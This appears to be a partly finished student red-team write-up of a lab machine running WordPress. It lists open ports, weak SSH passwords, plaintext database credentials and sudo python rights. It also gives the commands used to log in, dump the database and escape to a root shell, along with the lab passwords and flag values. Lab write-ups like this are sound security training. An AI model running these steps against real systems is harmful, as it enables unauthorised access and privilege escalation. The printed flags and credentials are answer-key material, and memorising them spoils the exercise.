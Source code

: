 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![nmapscantarget1](./Images/nmap%20scan.jpg)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
	- running wpscan was able to enumerate usernames for the target system.
     (insert wpscan screenshots)

  - SSH with password.
	- Users are able to SSH with a password instead of requiring an SSH key.
	- User michael had a weak password(Brute forced with HYDRA)
	(insert hydra screenshot)

  - Database credentials for wordpress are written in plain text.
	- Database credentials were stored in /var/www/html/
	- This allowed me to access the mysql database and extract confidential information such as password hashes.

  - python can be run with sudo privilages.
	- The user steven has the ability to run python with sudo.
	- Running python with sudo can execute arbitrary code on the system to get a shell with root access.


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var`
	- `grep -rnw ./ -e flag1 2>/dev/null`

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in /var/www.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cd /var/www`
	- `cat flag2.txt`

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
	- `ssh michael@192.168.1.110` (password michael)
	- `cat /var/www/html/wp_config.php`
	- `mysql -u root -p` (password R@v3nSecurity)
	- `USE wordpress;`
	- `USE wp_posts;`
	- `SELECT * FROM wp_posts;`

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
     - Commands run:
	- `ssh steven@192.168.1.110 (password pink84)`
	- `python -c 'import os; os.system("/bin/sh")'`
	- `cat /root/flag4.txt`

